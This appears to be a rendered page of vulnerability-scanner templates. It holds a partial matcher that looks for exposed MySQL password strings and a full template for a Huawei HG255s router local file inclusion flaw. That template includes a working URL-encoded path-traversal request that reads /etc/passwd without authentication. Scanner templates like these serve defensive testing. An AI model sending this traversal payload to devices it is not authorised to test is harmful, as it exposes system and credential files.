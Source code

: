 ### Matchers

**Type - word**

- part - body
- words
  1. [mysql]
  2. password=
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Huawei HG255s - Local File Inclusion

## Description

- Huawei HG255s is vulnerable to local file inclusion due to insufficient validation of the received HTTP requests. A remote attacker may access the local files on the device without authentication.
- severity - high
- tags - huawei,lfi,router

## Requests

- Method - GET

### URL

- {{BaseURL}}/css/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---
